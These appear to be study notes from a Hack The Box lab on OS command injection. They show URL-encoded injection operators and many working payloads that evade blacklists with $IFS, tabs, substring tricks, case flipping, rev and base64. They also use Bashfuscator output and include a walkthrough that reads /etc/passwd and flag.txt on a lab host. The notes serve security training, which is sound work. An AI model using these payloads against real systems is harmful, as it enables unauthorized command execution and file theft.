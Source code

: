 ## 
```bash!
ping -c 1 OUR_INPUT
```
If our input is not sanitized and escaped before it is used with the ping command, we may be able to inject another arbitrary command. 

---
## <span style=color:red>**Blacklisted Characters**</span>
```php!
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```
### URL encoding
```go!
|    &     | %26 |     
| -------- | --- | 
|    |     | %7c |
| -------- | --- |     
| New-line | %0A |     
| -------- | --- |     
|   TAB    | %09 |    
| -------- | --- |     
|    ;     | %3b |     
```


### $
```bash!
H4ck3rxPK@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

```bash!
H4ck3rxPK@htb[/htb]$ echo ${PATH:1:3}

/us
```
## [<span style=color:red>**Payload**</span>](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)
### <span style=color:blue>Bypassing Space Filters</span>
#### Using Tabs
```bash!
127.0.0.1%0a%09
```
#### Using $IFS
```bash!
127.0.0.1%0a{IFS}
```
#### Using Brace Expansion
```bash!
127.0.0.1%0a{ls,-la}
```
### <span style=color:blue>Bypassing Other Blacklisted Characters</span>
```bash!
127.0.0.1${LS_COLORS:10:1}${IFS}

127.0.0.1${LS_COLORS:10:1}%0A${IFS}ls${IFS}${PATH:0:1}home
```
#### Character Shifting
```bash!
H4ck3rxPK@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
H4ck3rxPK@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```
### <span style=color:blue>Bypassing Blacklisted Commands</span>
```bash!
127.0.0.1%0A${IFS}c'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
### <span style=color:darkblue>Advanced Advanced Command Obfuscation</span>
```bash!
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
![](https://hackmd.io/_uploads/SyLC2boa2.png)

![](https://hackmd.io/_uploads/rydp3-oa3.png)
---

``Need to match the space in command``

---
### Reverse Command
```bash!
H4ck3rxPK@htb[/htb]$ echo 'whoami' | rev
imaohw
```

```bash!
H4ck3rxPK@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
```bash!
H4ck3rxPK@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

1. ``Find encryption by myself and decryption that to escape WAF rule``
2. ``Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.``
---

```bash!
127.0.0.1%0A$(rev<<<'dnif')%09${PATH:0:1}usr${PATH:0:1}share${PATH:0:1}%09
```
```bash!
127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlIHwgZ3JlcCByb290IHwgZ3JlcCBteXNxbA==)
```
## [<span style=color:red>**Bashfuscator**](https://github.com/Bashfuscator/Bashfuscator)</span>

![](https://hackmd.io/_uploads/B1hZLV262.png)
```bash!
H4ck3rxPK@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
H4ck3rxPK@htb[/htb]$ cd Bashfuscator
H4ck3rxPK@htb[/htb]$ python3 setup.py install --user

H4ck3rxPK@htb[/htb]$ cd ./bashfuscator/bin/
H4ck3rxPK@htb[/htb]$ ./bashfuscator -h

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'
[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

H4ck3rxPK@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

## Skills Assessment

```php!
94.237.48.48:37835/index.php?to=%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")&from=877915113.txt&finish=1&move=1
```
```php!
94.237.48.48:37835/index.php?to=%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"LS")%09${PATH:0:1}&from=877915113.txt&finish=1&move=1
                                                                                  
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
```php!
94.237.48.48:37835/index.php?to=%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"cAt")%09${PATH:0:1}flag.txt&from=877915113.txt&finish=1&move=1
```

![](https://hackmd.io/_uploads/S1WPh02an.png)

![](https://hackmd.io/_uploads/BJf7M1p62.png)

echo -n 'cat /flag.txt' | base64

bash<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)

Moved from /var/www/html/files/2380029473.txt to /var/www/html/files/%{COLORS_LS:10:1}bash<<<$(base64 -d<<<Y2F0IC9mbGFnLnR4dA==)

{COLORS_LS:10:1}Not Found

